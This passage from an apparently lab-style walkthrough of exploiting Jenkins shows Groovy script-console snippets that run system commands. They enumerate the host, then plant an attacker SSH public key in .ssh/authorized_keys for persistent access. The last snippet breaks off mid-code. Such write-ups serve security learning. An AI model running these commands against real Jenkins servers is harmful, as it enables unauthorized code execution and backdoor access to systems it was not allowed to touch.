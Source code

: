 ![](exploit-jenkins-in-the-cloud-9.png)

It's running as `jenkins` user. Let's continue enumeration and check the current working directory
```
def proc = "pwd".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```

![](exploit-jenkins-in-the-cloud-10.png)

The working directory is `/var/lib/jenkins`. Let's check home directory, to make sure if we can create `.ssh` directory 
```
def proc = "env".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```

![](exploit-jenkins-in-the-cloud-11.png)

Okay, we can confirm that we have home directory, so let's create `.ssh` folder and `authorized_keys` file, where we will paste our public key to access the ssh
```
def proc = "mkdir .ssh".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```
```
def proc = "touch .ssh/authorized_keys".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```
```
def proc = "touch .ssh/authorized_keys".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```

Now we copy our public key
```
def command = "echo \"<PUBLIC_KEY>\" > .ssh/authorized_keys"
def shell = "/bin/bash" // or /bin/sh, depending on your system
def process = ["$shell", "-c", command].execute()
process.waitFor()

// Check for success
if(process.exitValue() == 0) {
    println "Command executed successfully. Output:"
    // Reading the standard output
    process.in.eachLine { line ->
        println line
    }
} else {
    println "Error executing command. Error Output:"
    // Reading the error output
    process.err.eachLine { line ->
```